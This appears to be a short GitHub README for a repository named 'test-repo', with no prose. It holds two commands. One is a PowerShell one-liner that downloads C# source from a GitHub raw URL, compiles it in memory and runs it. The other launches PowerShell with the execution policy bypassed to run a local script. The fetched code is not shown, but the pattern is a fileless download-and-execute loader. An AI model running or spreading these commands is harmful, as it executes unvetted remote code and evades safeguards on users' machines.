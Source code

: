 # test-repo

powershell: ```
Add-Type -TypeDefinition (new-object net.webclient).downloadstring("https://raw.githubusercontent.com/0x59R11/test-repo/main/code.cs") -Language CSharp;[Runner]::Run()```


shortcut: ```powershell.exe -executionPolicy bypass -noexit -file "C:\Users\adm1n\Desktop\run.ps1" 'SALAM'```
